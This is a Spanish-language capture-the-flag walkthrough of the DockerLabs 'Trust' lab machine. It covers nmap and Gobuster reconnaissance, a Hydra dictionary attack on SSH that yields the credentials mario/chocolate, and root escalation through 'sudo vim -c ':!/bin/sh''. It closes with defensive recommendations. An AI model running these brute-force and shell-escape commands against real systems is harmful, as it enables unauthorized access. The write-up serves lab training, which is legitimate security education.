# Trust - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas, redes o servicios reales sin autorización expresa.

## Objetivo

Resolver la máquina **Trust** de DockerLabs siguiendo una metodología básica de auditoría en laboratorio:

1. Levantar la máquina vulnerable.
2. Identificar los puertos abiertos con Nmap.
3. Analizar los servicios SSH y HTTP.
4. Enumerar contenido web con Gobuster.
5. Obtener una pista de usuario desde la web.
6. Probar credenciales mediante un ataque de diccionario controlado contra SSH.
7. Acceder al sistema.
8. Revisar permisos `sudo` mal configurados.
9. Escalar privilegios abusando de `vim` ejecutado con sudo.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | Trust |
| Entorno | Local / Docker |
| IP de ejemplo | `172.17.0.2` |
| Servicios principales | SSH y HTTP |
| Vector inicial | Web con pista de usuario |
| Usuario identificado | `mario` |
| Contraseña encontrada | `chocolate` |
| Escalada | `sudo vim` |

> La IP puede cambiar en cada despliegue. Sustituye `172.17.0.2` por la IP que muestre tu terminal.

## 1. Despliegue de la máquina

Nos situamos en la carpeta de trabajo y ejecutamos el script de despliegue de DockerLabs.

```bash
cd ~/Desktop/Laboratorio/trust
ls
sudo bash auto_deploy.sh trust.tar
```



El script devuelve la IP asignada a la máquina.


## 2. Reconocimiento con Nmap

Realizamos un escaneo de puertos y versiones para identificar servicios expuestos.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Parámetros principales:

| Parámetro | Función |
|---|---|
| `-p-` | Escanea todos los puertos TCP. |
| `-sC` | Ejecuta scripts básicos de Nmap. |
| `-sV` | Detecta versiones de servicios. |
| `--open` | Muestra únicamente puertos abiertos. |
| `-sS` | Realiza un SYN scan. |
| `-n` | Evita resolución DNS. |
| `-Pn` | Trata el host como activo. |

Resultado relevante:

| Puerto | Servicio | Interpretación |
|---|---|---|
| `22/tcp` | SSH | Posible acceso remoto si se consiguen credenciales. |
| `80/tcp` | HTTP / Apache | Servicio web para buscar pistas. |



## 3. Revisión inicial del servicio HTTP

Comprobamos la respuesta web desde terminal.

```bash
curl -I http://172.17.0.2
```



La web no aporta suficiente información directamente, así que continuamos con enumeración de rutas.

## 4. Preparación de diccionarios

Verificamos que existe el diccionario `common.txt` de SecLists, que usaremos con Gobuster.

```bash
ls /usr/share/seclists/Discovery/Web-Content/common.txt
```



## 5. Enumeración web con Gobuster

Ejecutamos Gobuster para buscar rutas y archivos comunes.

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -x php,txt,html \
  -r --xl 10701 -t 100
```

El parámetro `--xl 10701` ayuda a filtrar respuestas falsas con una longitud repetida.



Gobuster identifica el archivo `secret.php`.



Al revisarlo, aparece una pista importante: el posible usuario `mario`.

## 6. Comprobación del usuario por SSH

Probamos el usuario descubierto contra el servicio SSH.

```bash
ssh mario@172.17.0.2
```

Si aparece un aviso de clave SSH antigua por reutilización de IP en Docker, se limpia la entrada anterior de `known_hosts`.

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
```



## 7. Preparación de diccionario reducido

Para acelerar la prueba en laboratorio, generamos un diccionario con las primeras 1000 contraseñas de `rockyou.txt`.

```bash
ls /usr/share/wordlists/rockyou.txt
head -n 1000 /usr/share/wordlists/rockyou.txt > top1000.txt
ls -l top1000.txt
head top1000.txt
```



## 8. Ataque de diccionario controlado con Hydra

Usamos Hydra contra SSH con el usuario `mario`.

```bash
hydra -l mario -P top1000.txt ssh://172.17.0.2 -t 4
```

Hydra encuentra una credencial válida para el laboratorio.



Credenciales obtenidas:

| Usuario | Contraseña | Servicio |
|---|---|---|
| `mario` | `chocolate` | SSH |

## 9. Acceso inicial por SSH

Accedemos con el usuario encontrado y comprobamos el contexto.

```bash
ssh mario@172.17.0.2
whoami
id
hostname
pwd
ls -la
```



## 10. Revisión de permisos sudo

Comprobamos qué puede ejecutar el usuario con privilegios elevados.

```bash
sudo -l
```

El resultado muestra que `mario` puede ejecutar `vim` con sudo.



## 11. Escalada de privilegios con Vim

Si un usuario puede ejecutar `vim` como root mediante sudo, puede lanzar una shell desde el propio editor.

```bash
sudo vim -c ':!/bin/sh'
whoami
id
```



## Problemas frecuentes

| Problema | Causa probable | Solución |
|---|---|---|
| La IP no responde | Máquina no levantada o IP incorrecta | Revisar la IP mostrada por `auto_deploy.sh`. |
| Gobuster muestra demasiados falsos positivos | La web devuelve muchas respuestas con misma longitud | Filtrar con `--xl <longitud>`. |
| SSH muestra aviso de clave cambiada | Docker reutiliza IPs locales | Limpiar `known_hosts` con `ssh-keygen -R`. |
| Hydra no encuentra contraseña | Diccionario demasiado pequeño | Revisar diccionario o usar otro más adecuado al laboratorio. |

## Medidas defensivas

- No publicar pistas de usuarios en páginas web.
- Aplicar contraseñas robustas y evitar credenciales comunes.
- Bloquear intentos repetidos de login con herramientas como Fail2Ban.
- Revisar periódicamente permisos `sudo`.
- Evitar permitir editores interactivos como `vim` con privilegios de root.
- Registrar y monitorizar accesos SSH.

## Resumen final

La máquina se resuelve combinando reconocimiento de servicios, enumeración web, obtención de un usuario desde una pista HTTP, ataque controlado contra SSH y escalada de privilegios mediante una mala configuración de `sudo` con `vim`.
